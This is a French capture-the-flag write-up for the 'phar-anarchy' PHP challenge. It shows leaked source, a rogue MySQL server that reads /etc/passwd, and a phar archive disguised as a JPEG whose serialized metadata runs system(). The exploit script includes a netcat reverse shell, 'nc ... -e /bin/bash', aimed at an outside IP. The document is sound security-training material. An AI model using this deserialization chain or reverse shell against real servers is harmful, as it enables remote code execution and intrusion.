





### Challenge

phar-anarchy

### Auteur

Worty

### Solution

On arrive donc sur une page assez "old-school" :



Si l'on regarde la page "Anarchy", on remarque qu'il est possible d'upload un fichier jpg,png,... mais je reviendrais sur l'importance de cette page plus tard.

Il n'y a rien d'autre intéressant dans l'application, je vais donc aller voir le contenu du fichier robots.txt :

```
User-agent: *
Disallow: /app/install/
Disallow: /app/tmp/
Disallow: *~$
```

Si l'on se rend dans le dossier /app/tmp/, on remarque qu'il sert pour l'upload des fichiers, il n'est donc pas intéressant, par contre, le dossier /app/install/ permet de tester la connexion à une base de données mySQL :



Si l'on repense au fichier robots.txt, la ligne `Disallow: *~$` semble bizarre, si l'on essaye de requêter l'url /app/install/index.php~ on obtient ceci :

```php
<?php
require_once __DIR__ . '/../includes/classes/Anarchy.php';

class ChaosManager extends Anarchy {

    public function getManifest() {
        return  "";
    }

    static public function getDBConn($host, $login, $password) {
        return new mysqli($host, $login, $password);
    }
}

if (isset($_GET['type'])) {
    if (filter_var(@$_GET['ip'], FILTER_VALIDATE_IP) === false) {
      $msg  = "<div class='alert alert-error'>IP address is not valid !</div>";
      goto FK_LOGIC;
    }

    // not needed anymore
    // mysqli_options(MYSQLI_OPT_LOCAL_INFILE, true);
    $mysqli = ChaosManager::getDBConn(@$_GET['ip'], @$_GET['login'], @$_GET['password']);
    if ($mysqli->connect_error) {
        $msg  = "<div class='alert alert-error'>";
        $msg .= "Total Anarchy ! Unable to connect to MySQL.<br><br>";
    }else {
        $mysqli->query("SELECT version()");
        $msg = "Successful connection to MySQL.";
        mysqli_close($mysqli);
    }
}

FK_LOGIC:

?>
<html>...</html>
```

A partir de ce moment-là, j'ai leak tous les fichiers de l'application, mais les plus intéressants sont:<br>
- /app/install/index.php
- /app/includes/classes/Anarchy.php

Le fichier Anarchy.php est le suivant :

```php
<?php

/*
* All classes must follow our anarchist manifest !
*/
abstract class Anarchy {
    public $func_anarchy = '';
    public $vars_anarchy = [];

    // Spread chaos with a different identifier everytime
    public function getChaos() {
      return __CLASS__ . uniqid("__anarch__", true);
    }

    // Each class has to have an Anarchist Manifesto
    abstract public function getManifest();

    public function __destruct() {
        if (!empty($this->func_anarchy))
          call_user_func_array($this->func_anarchy, $this->vars_anarchy);
    }
}
```

On remarque bien dans le fichier `/app/install/index.php` la classe qui sert à tester la connexion à une base de données mySQL hérité de la class `Anarchy`. Or, dans cette classe, on remarque que sa fonction `__destruct` a été overwrite pour que, si la variable `func_anarchy` n'est pas vide, il exécute la dite fonction avec les paramètres contenus dans `vars_anarchy`.

On commence donc à voir un début d'exploitation, jouer avec la sérialization php pour faire appel à cette fonction destruct pour exécuter notre fonction et donc potentiellement obtenir une RCE.

Si l'on revient au script qui test la connexion à une base de données, on remarque assez vite qu'il est possible de passer n'importe quelle adresse IP. 

On remarque aussi la version de PHP utilisée, "PHP 7.3.2", et si l'on regarde les patchs effectués après cette version, on remarque que l'option "MYSQLI_OPT_LOCAL_INFILE" était, de base, à false. Cette option sert pour interdire (ou non) le chargement de fichier interne à la machine. Etant donné la version et la ligne commentée `// mysqli_options(MYSQLI_OPT_LOCAL_INFILE, true);`, il va être possible de récupéré des fichiers internes de la machine. 

Il va falloir maintenant trouvé comment, étant donné que, de base, il n'y a pas d'interaction. Mais on peut demander au script de tester la connexion à une base de données, on peut donc mettre en place une Rogue mySQL (un script python qui se fait passer pour une base de données), qui va nous permettre de lire des fichiers de la machine distante :



On voit bien qu'en faisant ce faux serveur, on réussit à récupérer le fichier /etc/passwd de la machine distante.

On va maintenant arriver à la partie "amusante de l'exploitation". Nous allons exploiter l'application de la manière suivante :<br>
- Création d'une archive phar cachée dans une jpg
- Dans cette archive :
    - Mettre les headers jpg pour passer les vérifications
    - Dans les métadonnées, mettre une sérialization de la classe Anarchy pour initialiser les deux paramètres qui sont passés dans la fonction destruct
- Upload de l'archive sur la plateforme
- Requeter avec le serveur rogue le fichier "phar:///path/to/upload"

J'ai donc créé un script pour crafter cette archive phar :

```php
<?php
$jpeg_header = ""; //jpeg headers

class ChaosManager //initialize class to trigger RCE
{
    public $func_anarchy = 'system'; 
    public $vars_anarchy = ["nc 146.59.156.82 4444 -e /bin/bash"]; 
}

$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub($jpeg_header."<?php __HALT_COMPILER(); ?>");
$a = new ChaosManager();
$phar->setMetadata($a);
$phar->addFromString("test.php","test");
$phar->stopBuffering();
```

Cette archive va donc trigger notre désérialization dans les métadonnées qui va permettrent de déclencher notre RCE.

On va donc ensuite upload cette archive sur le site, pour ensuite pouvoir y accéder.

L'application (gentillement) nous renvoi le path vers notre "image" `/var/www/html/app/chaos/anon_613b6b93e9fc29.72427691_phar`

On relance donc notre serveur rogue SQL et on inclut ce fichier (en n'oubliant pas le wrapper phar://) :



Ici, je demande mon fichier phar suivi de test.php, puisque dans la création de l'archive phar, les métadonnées (malveillantes) seront ajoutées dedans.

On obtient donc notre fameux reverse shell :



Encore un grand merci à l'auteur de ce challenge :)
### Flag

ALG{INC_PHAR_OOB_KEWL}